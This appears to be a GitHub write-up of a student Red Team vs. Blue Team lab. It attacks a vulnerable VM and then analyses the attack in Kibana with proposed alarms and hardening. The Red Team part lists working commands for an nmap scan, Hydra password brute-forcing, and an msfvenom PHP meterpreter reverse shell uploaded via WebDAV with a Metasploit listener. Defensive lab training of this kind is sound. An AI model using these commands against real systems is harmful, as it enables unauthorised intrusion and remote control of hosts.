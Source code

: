 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ifconfig to find the IP address of the capstone machine, which was the machine we were attacking.

-	I then ran a Nmap command nmap -sV 192.168.1.105 to find the open ports

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

-	On the Kali machine, I ran the Hydra tool with the command hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder on it that used brute force into the wordlist and found the password for it.

-	I then logged into the secret folder and found a personal note in it.

-	After reading the personal note, I copied the hashed text that was was left for Ryanâ€™s account and put it on https://crackstation.net/ and cracked it on the website.


-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php

-	I then uploaded the shell into the webdav directory.

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	Msfconsole
	-	use exploit/multi/handler
	-	Set payload php/meterpreter/reverse_tcp
	-	set LHOST 192.168.1.90
	-	set LPORT 80
	-	show options
	-	run

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command shell and went back to the root directory and then listed the directories and found the flag.



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested



Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
